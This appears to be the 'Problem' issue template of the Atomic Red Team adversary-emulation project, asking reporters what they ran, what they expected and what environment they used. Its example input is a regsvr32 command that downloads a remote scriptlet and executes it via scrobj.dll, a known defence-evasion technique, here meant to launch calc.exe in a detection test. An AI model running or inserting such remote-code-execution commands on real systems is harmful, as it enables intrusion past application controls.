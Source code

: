 ```yaml
---
name: Problem
about: Tell us about a problem you've encountered.
title: 'Problem: '
labels: 'problem'
assignees: ''

---
```

## What did you do?

ℹ Please replace this with what you did.
e.g. Run `regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll`

## What did you expect to happen?

ℹ Please replace this with what you expected to happen.
e.g. The atomic test executes and `calc.exe` is launched.

## What happened instead?

ℹ Please replace this with of what happened instead.
e.g. 💥

## Your Environment

* Which *specific* operating system are you running (e.g. Windows 7 SP1 32-bit)?
* Did you run the test from an elevated or root prompt?
* If relevant, which atomic test is this specific to?
* If relevant, which [execution harness](2) are you attempting to use?

[1]: https://github.com/redcanaryco/atomic-red-team/tree/master/atomics "atomic tests"
[2]: https://github.com/redcanaryco/atomic-red-team/tree/master/execution-frameworks "execution frameworks"
